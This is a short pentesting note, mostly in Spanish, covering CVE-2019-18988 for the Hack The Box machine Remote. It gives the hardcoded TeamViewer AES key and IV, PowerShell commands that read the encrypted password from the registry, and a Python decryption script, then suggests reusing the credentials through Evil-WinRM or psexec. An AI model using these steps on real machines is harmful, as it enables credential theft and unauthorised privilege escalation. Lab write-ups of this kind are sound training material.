 
## DESCRIPTION

CVE: **CVE-2019-18988

TeamViewer stored user passwords encrypted with AES-128-CBC with they key of `0602000000a400005253413100040000` and iv of `0100010067244F436E6762F25EA8D704` in the Windows registry. If the password is reused anywhere, privilege escalation is possible.

Es posible obtener la contraseña del usuario que lo instala.

ENUMERACIÓN

```
#Por ejemplo encontramos que se está utilizando o que esta insalado TeamViewer
tasklist

#Si accedemos a la ruta podemos comprobar la versión
C:\Program Files (x86)\TeamViewer> ls
```

![[Pasted image 20230228204130.png]]

#### Mas información
* https://0xdf.gitlab.io/2020/09/05/htb-remote.html#priv-iis--administrator
* https://whynotsecurity.com/blog/teamviewer/

## EXPLOITATION

1. Accedemos al registro de teamviewer

```
cd HKLM:\software\wow6432node\teamviewer\version7
```

2. Vemos los campos del registro

```
get-itemproperty -path .
```

![[Pasted image 20230228204349.png]]
3. SecurityPasswordAES es la contraseña que tenemos que desencriptar. La obtenemos:

```
(get-itemproperty -path .).SecurityPasswordAES
```

![[Pasted image 20230228204745.png]]

4. Script que lo desencripta:

```
#!/usr/bin/env python3 
from Crypto.Cipher import AES 
key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"

#en la siguiente variable introducimos la password encontrada en el paso anterior
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 126, 141, 55, 107, 38, 57, 78, 91]) 

aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")

print(f"[+] Found password: {password}")
```

![[Pasted image 20230228204650.png]]
5. Con estas credenciales prueba a conectarte por Evil-WinRM o psexec.

## MACHINES

* Hack The Box: Remote
